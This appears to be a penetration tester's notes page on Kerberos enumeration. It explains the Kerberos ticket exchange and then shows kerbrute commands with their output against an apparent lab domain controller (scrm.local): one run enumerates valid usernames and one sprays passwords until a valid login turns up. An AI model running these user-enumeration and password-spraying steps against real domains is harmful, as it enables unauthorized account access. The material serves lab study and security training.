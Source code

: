 ```yaml
---
description: >-
  Enumerate Kerberos Service.
title: KERBEROS (tcp-88)                 # Add title here
date: 2023-02-06 08:00:00 -0600                           # Change the date to match completion date
categories: [01 Enumeration, KERBEROS (tcp-88)]                     # Change Templates to Writeup
tags: [kerberos enumeration]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Explanation
The Kerberos authentication protocol used by Microsoft is adopted from the Kerberos version 5 authentication protocol created by MIT and has been used as Microsoft's primary authentication mechanism since Windows Server 2003. While NTLM authentication works through a principle of challenge and response, Windows-based Kerberos authentication uses a ticket system.

At a high level, Kerberos client authentication to a service in Active Directory involves the use of a domain controller in the role of a key distribution center, or KDC. This process is shown below.

![Description](/assets/img/Pasted image 20221113212909.png)

For example, when a user logs in to their workstation, a request is sent to the domain controller, which has the role of KDC and also maintains the Authentication Server service. This _Authentication Server Request_ (or _AS_REQ_) contains a time stamp that is encrypted using a hash derived from the password of the user and the username.

When the domain controller receives the request, it looks up the password hash associated with the specific user and attempts to decrypt the time stamp. If the decryption process is successful and the time stamp is not a duplicate (a potential replay attack), the authentication is considered successful.

The domain controller replies to the client with an _Authentication Server Reply_ (_AS_REP_) that contains a session key (since Kerberos is stateless) and a _Ticket Granting Ticket_ (TGT). The session key is encrypted using the user's password hash, and may be decrypted by the client and reused. The TGT contains information regarding the user, including group memberships, the domain, a time stamp, the IP address of the client, and the session key.

In order to avoid tampering, the Ticket Granting Ticket is encrypted by a secret key known only to the KDC and can not be decrypted by the client. Once the client has received the session key and the TGT, the KDC considers the client authentication complete. By default, the TGT will be valid for 10 hours, after which a renewal occurs. This renewal does not require the user to re-enter the password.

When the user wishes to access resources of the domain, such as a network share, an Exchange mailbox, or some other application with a registered service principal name, it must again contact the KDC.

This time, the client constructs a _Ticket Granting Service Request_ (or _TGS_REQ_) packet that consists of the current user and a timestamp (encrypted using the session key), the SPN of the resource, and the encrypted TGT.

Next, the ticket granting service on the KDC receives the TGS_REQ, and if the SPN exists in the domain, the TGT is decrypted using the secret key known only to the KDC. The session key is then extracted from the TGT and used to decrypt the username and timestamp of the request. As this point the KDC performs several checks:

1.  The TGT must have a valid timestamp (no replay detected and the request has not expired).
2.  The username from the TGS_REQ has to match the username from the TGT.
3.  The client IP address needs to coincide with the TGT IP address.

If this verification process succeeds, the ticket granting service responds to the client with a _Ticket Granting Server Reply_ or _TGS_REP_. This packet contains three parts:

1.  The SPN to which access has been granted.
2.  A session key to be used between the client and the SPN.
3.  A _service ticket_ containing the username and group memberships along with the newly-created session key.

The first two parts (SPN and session key) are encrypted using the session key associated with the creation of the TGT and the _service ticket_ is encrypted using the password hash of the service account registered with the SPN in question.

Once the authentication process by the KDC is complete and the client has both a session key and a service ticket, the service authentication begins.

First, the client sends to the application server an _application request_ or _AP_REQ_ , which includes the username and a timestamp encrypted with the session key associated with the service ticket along with the service ticket itself.

The application server decrypts the service ticket using the service account password hash and extracts the username and the session key. It then uses the latter to decrypt the username from the _AP_REQ_. If the _AP_REQ_ username matches the one decrypted from the service ticket, the request is accepted. Before access is granted, the service inspects the supplied group memberships in the service ticket and assigns appropriate permissions to the user, after which the user may access the requested service.

This protocol may seem complicated and perhaps even convoluted, but it was designed to mitigate various network attacks and prevent the use of fake credentials.

### Kerbrute

> Tool to validate valid users on the domain, remember that "users" is a dictionary and it must be created even if only one user needs to be tested
{: .prompt-tip }
```bash
kerbrute userenum -d scrm.local --dc 10.10.11.168 /usr/share/seclists/Kerberos/A-ZSurnames.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 01/21/23 - Ronnie Flathers @ropnop

2023/01/21 22:44:31 >  Using KDC(s):
2023/01/21 22:44:31 >   10.10.11.168:88

2023/01/21 22:44:31 >  [+] VALID USERNAME:       ASMITH@scrm.local
2023/01/21 22:45:06 >  [+] VALID USERNAME:       JHALL@scrm.local
2023/01/21 22:45:11 >  [+] VALID USERNAME:       KSIMPSON@scrm.local
2023/01/21 22:45:13 >  [+] VALID USERNAME:       KHICKS@scrm.local
2023/01/21 22:45:44 >  [+] VALID USERNAME:       SJENKINS@scrm.local
2023/01/21 22:46:15 >  Done! Tested 13000 usernames (5 valid) in 104.092 seconds
```
Example:
[Scrambled](https://shuciran.github.io/posts/Scrambled/#fnref:kerbrute)
[Tentacle](https://shuciran.github.io/posts/Tentacle/#fnref:kerbrute)

### Password Spraying
```bash
kerbrute bruteuser --dc 10.10.11.168 -d scrm.local validUsers ksimpson

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 01/21/23 - Ronnie Flathers @ropnop

2023/01/21 23:30:54 >  Using KDC(s):
2023/01/21 23:30:54 >   10.10.11.168:88

2023/01/21 23:30:55 >  [+] VALID LOGIN:  ksimpson@scrm.local:ksimpson
2023/01/21 23:30:55 >  Done! Tested 6 logins (1 successes) in 0.494 seconds
```

Useful resource to get a dictionary with possible users on a domain (test with dot and without it):
[kerberos enum userlists](https://github.com/attackdebris/kerberos_enum_userlists)

> If users are found this tool will execute an [ASREPRoast Attack](https://shuciran.github.io/posts/ASREPRoast-Attack/)
{: .prompt-warning }



